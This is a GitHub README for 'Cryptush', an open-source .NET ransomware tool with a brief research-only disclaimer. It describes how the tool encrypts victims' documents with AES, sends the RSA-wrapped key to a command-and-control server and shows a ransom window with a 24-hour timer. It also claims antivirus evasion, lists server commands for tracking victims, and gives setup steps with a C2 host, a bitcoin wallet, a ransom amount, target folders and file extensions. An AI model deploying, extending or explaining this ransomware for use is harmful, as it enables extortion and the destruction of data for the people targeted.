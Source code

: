 # Cryptush
An open-source ransomware tool written in .NET

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">
</p>


## Disclaimer

The tool is intended for research and threat emulation purposes only. I'm not reponsible for any malicious uses of this tool.

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

### Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.

## Server commands

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.

### AV Tests

* Kaspersky - PASS
* CrowdStrike - PASS


### Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0


### Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

```
    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
```    
   
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs


### Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```
